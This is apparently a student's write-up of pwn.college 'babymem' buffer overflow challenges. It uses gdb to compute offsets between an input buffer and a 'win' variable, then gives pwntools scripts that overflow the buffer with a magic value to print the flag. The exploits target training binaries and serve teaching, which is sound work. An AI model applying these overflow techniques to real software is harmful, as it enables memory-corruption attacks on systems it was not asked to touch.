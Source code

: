 -Let show address of win and buf:

```
(gdb) x $rbp-0x40
0x7fff547ff110: 0x547ff120
(gdb) x $rbp-0x38
0x7fff547ff118: 0x547ff13c
```

    win - buf = 0x547ff13c - 0x547ff120 = 28 
    
-So, you need to 29 byte to overwrite win variable.

--------------
- **If you overwrite canary variable, it will work.**
# 2. Level 2.0:
> In this level, there is a "win" variable.
> By default, the value of this variable is zero.
> However, if you can set variable to 0x40f266ff, the flag will be printed.
> You can change this variable by overflowing the input buffer, but keep endianness in mind!
> The "win" variable is stored at 0x7ffc062920e8, 24 bytes after the start of your input buffer.


My script:

```
from pwn import *
r = process('/challenge/babymem_level2.0')
r.recvuntil(b'Payload size: ')
r.sendline(b'28')
r.recvuntil(b'Send your payload (up to 28 bytes)!')
r.sendline(b'A'*24 + p32(0x40f266ff))
r.interactive()
```

# 2.1. Level2.1:

- First, we need to find offset between buf and win variable:
```
(gdb) x $rbp-0x70
0x7fff7cd6ff70: 0x7cd6ff80
(gdb) x $rbp-0x68
0x7fff7cd6ff78: 0x7cd6ffc8
```

    offset = 0x7cd6ffc8 - 0x7cd6ff80 = 72
    
- Next, overwrite value of win variabe: **0x3be21a84**

`0x000055f5c2b76465 <+252>:   cmp    eax,0x3be21a84`

```
from pwn import *
r = process('/challenge/babymem_level2.1')
r.recvuntil(b'Payload size: ')
r.sendline(b'76')
r.recvuntil(b'Send your payload (up to 76 bytes)!')
r.sendline(b'A'*72 + p32(0x3be21a84))
r.interactive()
```
